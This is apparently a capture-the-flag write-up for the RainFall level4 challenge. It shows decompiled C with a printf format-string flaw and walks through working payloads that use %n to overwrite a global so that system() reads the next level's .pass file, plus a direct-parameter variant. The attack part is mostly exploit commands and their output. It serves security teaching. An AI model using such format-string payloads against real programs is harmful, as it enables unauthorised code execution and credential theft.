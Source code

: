 # Walkthrough

## Reversing

```c
void main(void)
{
  n();
  return;
}

void n(void)
{
  char local_20c [520];
  
  fgets(local_20c,512,stdin);
  p(local_20c);
  if (m == 16930116) {
    system("/bin/cat /home/user/level5/.pass");
  }
  return;
}

void p(char *param_1)
{
  printf(param_1);
  return;
}
```

Same as before but... now `m` needs the value `16930116`, but, we can only
write 512 bytes... But don't worry.

## Exploit

`%n` writes the count of characters written by the format function, that's it,
is dependant on the format string. Since we control the format string, we can
at least take influence on this counter, by writing more or less bytes.

Take the new address of `m`: `08049810`.

So, take the previus payload, remove the previus 'A', and change it so it prints
`16930116` bytes unisg `%u`:
```bash
printf '\x10\x98\x04\x08%%p%%p%%p%%16930087u%%n\n' | ./level4
```

*Note: we need to write 16930116 bytes - 29 bytes that are already been written.*

But there's is still one problem, the internal pointer... We were incrementing
it with `%p`, but now we have another `%u`, so first, let's see how many bytes
we need to increment the pointer so it's on the start of the format string:
```bash
AAAA %p %p %p %p %p %p %p %p %p %p %p %p %p
```

This time our string is further in the stack, we need to increase the internal
`printf` pointer by 12 * 4 bytes (remember each `%p` is 4 bytes)...

So, know to print our 'A' back, instead of the 3 * 4 bytes we needed to increase
in `level3`, now we need to increase 11 * 4 bytes:
```bash
level4@RainFall:~$ ./level4
AAAA%p%p%p%p%p%p%p%p%p%p%p%c
AAAA0xb7ff26b00xbffff7540xb7fd0ff4(nil)(nil)0xbffff7180x804848d0xbffff5100x2000xb7fd1ac00xb7ff37d0A
```

Cool, but know we are printing 11 `%p`, so instead of 25 bytes, if we count
them, we are printing 94 bytes.

That means, our initial 4 bytes, plus 94, so:
```bash
bc
16930116 - 4 - 94
16930018
```

So, modify the payload accordingly (remove one `%p` because `%u` increments by 4 bytes also, and so add 10 more bytes to the size of `%u`):
```bash
bc
16930018 + 10
16930028
quit

printf '\x10\x98\x04\x08%%p%%p%%p%%p%%p%%p%%p%%p%%p%%p%%16930028u%%n\n' | ./level4
```

It does not segfault, yeah!

So, we modify our script so we have an interactive session and the `system()`
executes with out problem.

And run it!
```bash
./exploit.sh
```

Take the flag and let's go!

For the sake of science, we can une the `$` modifier with `%n`, but it's boring:
```bash
bc
bc
16930116 - 4
16930112
quit

printf '\x10\x98\x04\x08%%16930112u%%12$n\n' | ./level4
```
